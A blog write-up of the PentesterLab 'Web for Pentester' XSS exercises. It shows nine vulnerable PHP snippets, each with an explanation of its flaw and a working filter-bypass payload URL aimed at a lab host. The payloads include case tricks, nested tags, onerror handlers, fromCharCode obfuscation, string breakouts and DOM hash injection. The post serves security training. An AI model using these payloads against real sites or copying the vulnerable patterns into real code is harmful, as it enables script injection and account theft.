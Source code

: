 ```yaml
---
layout: post
title: "PentesterLab -- Web for Pentester - XSS"
date: 2016-03-08 14:55:55 -0500
comments: true
categories: [pentesterlab, xss, web pentest]
---
```


Web for Pentester:
    This exercise is a set of the most common web vulnerabilities 

Difficluty: 1/5
<!--more-->

###Example1

code review:

```php example1.php
<?php require_once '../header.php'; ?>
<html>
Hello 
<?php 
	echo $_GET["name"];
?>

<?php require_once '../footer.php'; ?>

```
The vulnerability is due to no validaton of name.

exploit:

`http://192.168.79.162/xss/example1.php?name=<script>alert("xss")</script>`



###Example2

code review:

```php example2.php
<?php require_once '../header.php'; ?>
Hello 
<?php
	 
	$name =  $_GET["name"];
	$name = preg_replace("/<script>/","", $name);
	$name = preg_replace("/<\/script>/","", $name);
echo $name;
?>
<?php require_once '../footer.php'; ?>

```
In the above code, the developer filter `<script>` and `</script>`. However, I can use `<Script>alert('xss')</Script>` to bypass it.


exploit:

`http://192.168.79.162/xss/example2.php?name=<Script>alert("xss")</Script>`




###Example 3

code review:

```php example3.php
<?php require_once '../header.php'; ?>
Hello 
<?php
	 
	$name =  $_GET["name"];
	$name = preg_replace("/<script>/i","", $name);
	$name = preg_replace("/<\/script>/i","", $name);
echo $name;
?>

<?php require_once '../footer.php'; ?>

```
The developer tris to filter both lower case and upper case letter. I can use `recursion method` bypass this.

exploit:

`http://192.168.79.162/xss/example3.php?name=<scr<script>ipt>alert("xss")</scr</script>ipt>`



##Example 4

code review:

```php example4.php
<?php require_once '../header.php'; 

if (preg_match('/script/i', $_GET["name"])) {
  die("error");
}
?>

Hello <?php  echo $_GET["name"]; ?>
<?php require_once '../footer.php'; ?>	

```
The developer tris to completely filter `script`. I can use `img` to bypass it.

exploit:

`http://192.168.79.162/xss/example4.php?name=<img src="xx" onerror="alert('xss')"/>`



###Example5

code review:

```php example5.php
<?php require_once '../header.php'; 

if (preg_match('/alert/i', $_GET["name"])) {
  die("error");
}
?>

Hello <?php  echo $_GET["name"]; ?>
<?php require_once '../footer.php'; ?>	

```
The devekoper filter `alert`. I can use `fromCharCode` to build alert payload.

exploit:

`http://192.168.79.162/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>`


###Example 6

code review:

```php example6.php
<?php require_once '../header.php'; ?>
Hello 
<script>
	var $a= "<?php  echo $_GET["name"]; ?>";
</script>
	<?php require_once '../footer.php'; ?>

```
The input name variable is between `<script>`, so we can just close the double quote and use `\\` to comment the reset of code.

exploit:

`http://192.168.79.162/xss/example6.php?name=";alert("xss");//
`



###Example 7

code review

```php example7.php
<?php require_once '../header.php'; ?>
Hello 
<script>
	var $a= '<?php  echo htmlentities($_GET["name"]); ?>';
</script>
	
<?php require_once '../footer.php'; ?>

```
The developer uses `htmlentities()` to encode special characters. However, it does not encode single quotes `'`, so that I can use single quote to close it and comment the rest of the code

exploit:

`http://192.168.79.162/xss/example7.php?name=';alert('xss');//`



###Example 8

code review

```php example8.php
<?php 
  require_once '../header.php'; 

  if (isset($_POST["name"])) {
    echo "HELLO ".htmlentities($_POST["name"]);
  }
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>

<?php 
   
  require_once '../footer.php'; 

?>

```
The developer does not valid the parpmeter `PHP_SELF` so that I can bypass it.

exploit:

`http://192.168.79.162/xss/example8.php/" onmouseover="alert('xss')`


###Example 9

code review

```php example9.php

<?php require_once '../header.php'; ?>
<script>
  document.write(location.hash.substring(1));
</script>
<?php require_once '../footer.php'; ?>
```
The user input is after `#`. This is a DOM-based XSS vuln.

exploit:

`http://192.168.79.162/xss/example9.php#<script>alert(1)</script>`